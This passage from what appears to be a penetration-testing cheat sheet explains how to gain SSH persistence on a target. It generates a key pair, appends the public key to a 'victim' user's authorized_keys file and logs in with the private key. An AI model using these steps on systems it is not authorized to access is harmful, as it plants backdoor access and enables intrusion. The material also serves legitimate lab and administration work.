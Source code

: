 ### Install SSH Key

In target machine,

```sh
ssh-copy-id username@<target-ip>
```

<br />

## Generate SSH Keys and Set Up Public Key to Connect Remote Machine

### 1. Check if authorized_keys Exists in Remote Machine

```sh
ls /home/<remote-user>/.ssh/authorized_keys
```

If it exists, you may be able to connect SSH with your keys as victim user.

### 2. Generate SSH Keys in Local Machine

```sh
ssh-keygen -f key

# Copy the content of publick key
cat ./key.pub
```

Then copy the content of public key you generated.

### 3. Add the Content of Publick Key to authorized_keys

In remote machine,

```sh
echo '<content of id_rsa.pub' >> /home/<victim-user>/.ssh/authorized_keys
```

### 4. Login with Private Key

In local machine, we have a SSH private key in local machine so we can login the target SSH server with it.

```bash
# Change permission of the private key ('key', here)
chmod 600 key
# Login with it
ssh victim@<target-ip> -i key
```

<br />

## SSH Server
